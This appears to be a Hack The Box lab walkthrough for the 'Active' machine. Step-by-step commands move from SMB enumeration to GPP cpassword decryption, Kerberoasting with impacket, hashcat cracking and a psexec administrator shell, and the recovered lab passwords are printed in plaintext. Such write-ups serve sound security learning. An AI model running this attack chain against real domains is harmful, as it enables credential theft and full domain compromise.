

# [Active](https://app.hackthebox.com/machines/active)

```bash
nmap -p- --min-rate 10000 10.10.10.100 -Pn
```


After knowing the open ports (53,88,135,139,389,445,464,593,636,3268,3269,5722,9389), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389 10.10.10.100 -Pn 
```

put image here.


In my opinion, it's Domain Controller as because port 88 is open.


I also enumerate SMB share via `smbmap` command.

```bash
smbmap -H 10.10.10.100
```


Let's access into 'Replication' share to read some data.

```bash
smbclient -N //10.10.10.100/Replication 
```


I found 'Groups.xml' file, let's read this file.




We get value from 'cpassword' key and decrypt via `gpp-decrypt` tool.

```bash
gpp-decrypt {value_of_cpassword}
```


That's credentials of 'SVC_TGS' as we read from 'Groups.xml' file.

SVC_TGS : GPPstillStandingStrong2k18


Let's check this user is `Kerberoastable` or not.

For this, we need to use `GetUserSPNs.py` script of `impacket` module.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS:'GPPstillStandingStrong2k18'
```


Let's get this hash of '**administrator**' and crack via `hashcat` tool.

```bash
hashcat -m 13100 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```


Administrator:Ticketmaster1968


Let's connect machine via this credentials by using `psexec.py` script of `impacket`.

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator:'Ticketmaster1968'@10.10.10.100  
```


user.txt


root.txt

